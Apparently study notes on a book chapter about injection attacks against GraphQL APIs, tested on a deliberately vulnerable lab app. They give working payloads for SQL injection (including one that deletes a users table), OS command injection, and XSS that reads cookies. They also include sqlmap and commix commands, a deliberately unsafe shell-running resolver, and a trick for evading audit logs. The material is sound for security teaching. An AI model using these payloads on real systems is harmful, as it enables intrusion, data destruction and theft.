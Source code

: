 # Injection Vulnerabilities in GraphQL

### **Introduction**

Injection vulnerabilities occur when an application accepts and processes untrustworthy input without any sanitization. Sanitization is a security measure that involves checking input and removing potentially dangerous characters from it. The absence of such a check could allow the input to be interpreted as a command or a query and execute on either the client side or server side.

### **The Injection Surface**&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>Network trust boundaries</p></figcaption></figure>

{% embed url="https://owasp.org/API-Security/editions/2023/en/0x11-t10/" %}

GraphQL presents a wide attack surface due to various points where user input can be injected. These include:

* **Query Arguments:** These are parameters supplied to fields in a GraphQL query. The chapter illustrates how the `pastes` field can take a `filter` argument, which can be vulnerable to SQL injection.

```graphql
# Query Inputs
query {
    pastes(limit: 100) {
        id
        ipAddr
    }
}
------------------------------
# Mutation input points
mutation {
    createPaste(content: "Some content", title:"Some title", public: false) {
        paste {
            id
            ipAddr
        }
    }
}
```

**Exploit**

```graphql
# exploit sql injection 
mutation {
    createPaste(content: "content'); DELETE FROM users; --") {
        paste {
            id
            ipAddr
        }
    }
}
```

* **Field Arguments**: GraphQL fields can also accept arguments that can be manipulated. The example provided involves the `username` field, which is shown to accept a `capitalize` argument.

```graphql
query {
    users {
        username(capitalize: true)
        id
    }
}
```

* **Query Directive Arguments:** Directives modify field behavior, and their arguments can also be a point of injection. An example is a `show_network` directive with a `style` argument.

```graphql
query {
    pastes {
        id
        ipAddr @show_network(style: "cidr")
    }
}
```

You can use the introspection query shown in  to get only the available directives by using the `__schema` meta-field with the directives field.

```graphql
query GetDirectives {
    __schema {
        directives {
            name
            description
            locations
        }
    }
}
```

* **Operation Names:** Clients can define operation names, and these can be manipulated to potentially bypass security measures or mislead log analysis. An example involves spoofing the operation name to bypass audit logging, for example using `SpoofedOperationName` instead of `createPaste`.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>Executing a selected query based on its operation name in GraphiQL Explorer</p></figcaption></figure>

* **Input Entry Points:** Any place where user-controlled data is input, such as fields in mutations, which are used to create, update, or delete data, can be injection points. The `createPaste` mutation, which uses `content`, `title`, and `public` arguments, is one example.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **SQL Injection (SQLi):** The chapter dedicates significant attention to SQL injection, explaining that it can occur when user input is used to construct SQL queries.
  * **Identification:** The chapter advises focusing on fields that accept string values and have names suggesting filtering, such as the `filter` argument in the `pastes` query.
  * **Manual Testing**: Techniques for testing SQL injection manually include using single (') or double (") quotes in input fields to observe how the application responds.
  * **Exploitation:** The chapter explains how to exploit SQLi by using SQL commands, such as `OR 1=1--`, within the filter argument to bypass intended filtering and retrieve all records.
  * **Automated Testing:** The chapter introduces **SQLmap**, a tool for automating SQL injection tests, and explains how to use it to read HTTP requests from a file and test for vulnerabilities.
  * **Database Fingerprinting**: Error messages from the database can be verbose and reveal the database structure to the attacker including table names.
  * **Types of SQL Injection**: The chapter mentions different types of SQLi, such as **blind SQL injection**, **Boolean-based SQL injection**, **error-based SQL injection**, and **time-based SQL injection**.

```graphql
query {
    pastes(filter:"My First Paste'") {
        id
        content
        title
    }
}
----------------------------
query {
    pastes(filter:"My First Paste' or 1=1--") {
        title
        content
    }
}
---------------------------
sqlmap -r request.txt --dbms=sqlite --tables

```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Operating System Command Injection:** The chapter explains how a GraphQL API can be vulnerable to OS command injection, for example when user input is incorporated into system commands.
  * **Code Review:** The chapter highlights the importance of reviewing resolver functions to identify where user inputs are used in OS commands.
  * **Manual Testing**: The chapter demonstrates a manual attack by showing how the `systemDebug` field's `arg` argument can be manipulated to execute commands by using a semicolon to separate them.
  * **Automated Testing:** The chapter introduces **Commix**, a tool that automates OS command injection testing by fuzzing various inputs. It explains how Commix can be used to test variations of payloads, characters, and methods and then save valuable time.

{% code overflow="wrap" %}
```graphql
query {
    systemDebug
}
------------------
query {
    systemDebug(arg:"; uptime")
}
-------------------------
# opuput
PID TTY TIME CMD\n 11999 pts/1 14050 pts/1 1 user, load average: 0.71, 0.84, 0.91\n"\ 00:00:00 bash\n

--------------------
# Automation
commix --url="http://127.0.0.1:5013/graphql" --data='{"query":"query{systemDebug(arg:\"test \")}"}' -p arg
```
{% endcode %}

* **Cross-Site Scripting (XSS):** The chapter discusses how to test for XSS vulnerabilities in GraphQL applications, focusing on three main types of XSS:
  * **Reflected XSS:** The chapter explains that reflected XSS can occur when a malicious script is injected into a request and then reflected back to the user in the response.
  * **Stored XSS:** The chapter notes that stored XSS occurs when malicious code is stored on the server, which can then be executed by other users accessing that data.
  * **DOM-Based XSS:** The chapter explains that DOM-based XSS can be exploited by manipulating the client-side JavaScript.
  * **Testing:** The chapter demonstrates how to test for XSS by inserting JavaScript code, such as `<script>alert("XSS")</script>`, into a mutation’s input fields like the `content` field of `createPaste`, and see if the injected script executes.

```graphql
query {
    hello(msg:"<script>document.cookie;</script>")
}
---------------------------
http://example.com/graphql?query=query%20%7B%0A%20%20hello(msg%3A%22hello%22)%0A%7D
----------------------------
http://example.com/graphql?query=query {hello(msg:"hello")}
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>A stored XSS vulnerability impacting adjacent applications</p></figcaption></figure>



* **Importance of Resolver Functions:** The chapter underscores that understanding how resolver functions process client data is important for finding injection points. Reviewing resolver functions can reveal how inputs are handled and whether they are properly sanitized.

```python
def resolve_system_debug(self, info, arg=None):
    Audit.create_audit_entry(info)
    if arg:
        output = helpers.run_cmd('ps {}'.format(arg))
    else:
        output = helpers.run_cmd('ps')
    return output
```

* **Bypassing Security Measures:** The chapter notes that attackers can attempt to bypass security measures by manipulating GraphQL operation names. This can sometimes avoid audit logging or make malicious requests appear benign.
